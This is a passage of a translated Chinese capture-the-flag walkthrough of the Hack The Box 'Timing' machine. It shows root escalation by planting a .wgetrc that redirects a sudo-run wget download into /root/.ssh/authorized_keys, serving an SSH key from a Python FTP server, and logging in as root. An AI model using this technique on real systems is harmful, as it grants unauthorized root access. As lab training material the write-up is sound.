

Pspy 在盒子上运行

在我们当前的 SSH 会话中运行，登录到第二个会话，然后再次运行 netutils。像以前一样，对 FTP 使用选项 0，对 HTTP 使用选项 1，再次尝试获取我的 pencer.jpg 文件。现在切换回 pspy64 会话，看看发生了什么:



Pspy 显示正在使用 wget

# Wget 漏洞利用

我们可以看到 netutils java 应用程序使用 wget 进行 FTP 连接，使用 axel 进行 HTTP 连接。我后来发现通过利用 axel 来完成这个盒子是可能的，但是我是使用 FTP 来完成的，所以我们将遵循那个方法。

还有另一个叫 Kotarak 的 HTB 盒子也有类似的路径，[这个](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html)走过帮助了我。需要知道的关键部分是 wget 在运行时会寻找一个启动文件。从这里的文档[我们可以看到它是如何工作的:](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html)

```
When initializing, Wget will look for a global startup file, /usr/local/etc/wgetrc by default (or some prefix other than /usr/local, if Wget was not installed there) and read commands from there, if it exists.

Then it will look for the user’s file. If the environmental variable WGETRC is set, Wget will try to load that file. Failing that, no further attempts will be made.

If WGETRC is not set, Wget will try to load $HOME/.wgetrc.
```

在这个盒子上，我们发现没有全局文件，所以我们可以通过创建我们自己的文件来利用它。aaron 的/home 文件夹中的 wgetrc 文件。查看可用的命令[这里](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)我们看到有一个选项可以设置检索文件的名称和路径。我们可以以 root 用户身份运行 java 应用程序，这样我们就可以将/root 作为可写位置进行访问。让我们把 Kali 公共 SSH 密钥放在那里，这样我们就可以以 root 用户身份登录，不需要密码。

首先创建。/home/aaron 中的 wgetrc 配置文件:

```
aaron@timing:~$ cat <<_EOF_>.wgetrc
> output_document = /root/.ssh/authorized_keys
> _EOF_
```

如果需要，在 Kali 上创建我们的 SSH 密钥:

```
┌──(root💀kali)-[~]
└─# ssh-keygen          
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:B/SsKx8Z8AU/c40jKybaq8OpWpTVdl2Yz0e/ktMxXxY root@kali
The key's randomart image is:
+---[RSA 3072]----+
|        o  o.    |
|     . . *o. o.E |
|    . + o Xo+....|
|   o . + + *o..o+|
|  o   . S o  .o.*|
| .   o o *   + o.|
|  ....o +     o  |
| .  +  + .       |
|.....o. .        |
+----[SHA256]-----+
```

将公钥的副本放在我们的工作文件夹中:

```
┌──(root💀kali)-[~]
└─# cp .ssh/id_rsa.pub htb/timing
```

# Python FTP 服务器

如果需要，安装 Python3 FTP 库:



安装 pyftpdlib

现在启动一个 FTP 服务器，这样我们就可以获得我们的 SSH 公钥:

```
┌──(root💀kali)-[~/htb/timing]
└─# python3 -m pyftpdlib -p 21
[I 2021-12-29 22:15:26] concurrency model: async
[I 2021-12-29 22:15:26] masquerade (NAT) address: None
[I 2021-12-29 22:15:26] passive ports: None
[I 2021-12-29 22:15:26] >>> starting FTP server on 0.0.0.0:21, pid=1597 <<<
```

切换回盒子，再次运行 netutils 应用程序，这次为 FTP 选择 0，并输入我们的 Kali IP 和我们托管在那里的 SSH 公钥:

```
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 0
Enter Url+File: 10.10.14.12/id_rsa.pub
```

现在回到卡利，检查文件被要求:



Kali 上运行的 FTP 服务器

# SSH 作为 Root 用户

是的，所以启动一个新的终端，以 root 用户身份登录到机器:

```
┌──(root💀kali)-[~/htb/timing]
└─# ssh root@timing.htb  
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)
Last login: Tue Dec  7 12:08:29 2021
root@timing:~#
```

抓住旗子，我们就完成了:

```
root@timing:~# cat /root/root.txt 
<HIDDEN>
```

又一个盒子完成了。我真的很喜欢这个，因为它需要相当多的思考才能完成。下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 6 月 3 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-timing)*。*